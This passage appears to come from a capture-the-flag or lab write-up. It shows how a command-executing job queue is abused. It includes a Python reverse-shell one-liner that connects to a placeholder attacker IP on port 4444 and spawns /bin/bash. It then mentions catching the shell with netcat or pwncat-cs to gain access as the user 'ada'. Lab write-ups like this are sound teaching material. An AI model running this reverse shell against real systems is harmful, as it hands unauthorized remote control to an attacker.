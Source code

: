 As seen in the screenshot above, we can execute multiple commands one after another. We also can clearly see the results.

#### Reverse Shell

As an easy way forward, we will use this capability to execute a reverse shell:

```python
jobs.put({
    'job_id': 'shell', 
    'cmd': 'python3 -c \'import os,pty,socket;s=socket.socket();s.connect(("<A_IP>",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")\''
    })
```

We do not need to run the original two `hostname` and `whoami` jobs.

Of course, you can also run a different, possibly more stable, reverse shell. In any way, using `pwncat-cs` or simply `netcat`, we can catch the shell which provides us access via the *ada* user.

![C2](screenshots/reverse-shell-ada.png)

```text
🗒️📌 NOTE

Your initial enumeration will uncover the Fi user. 
This user runs the sniffer and is not part of the intended attack path.
You can also take this as a learning opportunity: Just because something exists does not make it relevant for the attack.
```
